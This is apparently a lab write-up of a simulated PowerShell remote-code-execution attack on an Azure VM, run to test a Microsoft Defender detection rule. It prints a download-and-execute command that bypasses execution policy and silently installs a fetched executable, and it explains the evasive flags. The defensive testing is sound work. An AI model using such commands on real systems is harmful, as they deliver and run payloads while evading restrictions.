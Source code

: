 # 03 - Attack Simulation

## Introduction

In this phase of the project, I simulated a realistic Remote Code Execution (RCE) attack using PowerShell. The purpose of this simulation was to validate the effectiveness of the custom detection rule I had configured in Microsoft Defender for Endpoint (MDE). By mimicking attacker behaviour through a controlled script execution, I was able to observe how the endpoint protection system responded in a real-time scenario.

To emulate an attacker’s workflow, I used PowerShell to download and install a legitimate application (7-Zip) from an external source. This provided a safe yet practical example of how attackers often introduce payloads into a compromised system.

## Step-by-Step Procedure

### Simulate the Attack

#### Action

I logged into the compromised Windows 10 virtual machine (VM) hosted in Microsoft Azure and executed the following PowerShell command to simulate the RCE attack:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\ProgramData\7z2408-x64.exe' -ArgumentList '/S' -Wait"
```
## Explanation of the Command

- **`cmd.exe /c`**: Executes a command using the Windows command-line interface (`cmd.exe`).

- **`powershell.exe -ExecutionPolicy Bypass -NoProfile`**: Launches PowerShell with the execution policy bypassed and user profiles excluded. This is a common tactic used by attackers to evade execution restrictions and reduce traces of execution.

- **`Invoke-WebRequest`**: Downloads the 7-Zip installer from a remote server. In a real attack, this command could be used to retrieve malware or scripts.

- **`-OutFile C:\ProgramData\7z2408-x64.exe`**: Specifies the file path where the downloaded executable will be saved. The `ProgramData` directory is often writable and frequently targeted in attacks.

- **`Start-Process 'C:\ProgramData\7z2408-x64.exe' -ArgumentList '/S' -Wait`**: Executes the downloaded file with the `/S` flag for silent installation, ensuring that the installation proceeds without user prompts or UI, while `-Wait` ensures the command session remains active until the installation is complete.

## Why This Attack Simulation is Important

This simulation closely mirrors tactics used by real-world adversaries who exploit PowerShell’s capabilities to deliver and execute malicious payloads. Executing this simulation served several key purposes:

- It allowed me to validate the effectiveness of the custom detection rule I created, which was designed to flag the use of `Invoke-WebRequest` in combination with `Start-Process`.
- It tested whether MDE would respond appropriately by isolating the device to contain the threat.
- It confirmed the automatic collection of an investigation package, which includes critical forensic artefacts necessary for post-incident analysis.

## Outcomes

- **Detection Rule Triggered**: As expected, the detection rule fired upon execution of the simulated attack, confirming the reliability of my KQL query.
- **Device Isolation**: The virtual machine was automatically isolated by MDE. This broke the device’s network connection to prevent further lateral movement or command-and-control activity.
- **Investigation Package**: MDE collected a full investigation package, which included process trees, file and registry activity, event logs, and network connections. This data allowed me to review the attack in detail and assess the potential impact.

## Summary

By simulating an RCE attack using PowerShell, I was able to demonstrate how endpoint protection tools like Microsoft Defender for Endpoint can be configured to detect specific attacker behaviours and respond automatically. This exercise strengthened my understanding of PowerShell-based attack vectors, defensive detection logic using KQL, and the incident response features within the MDE platform.
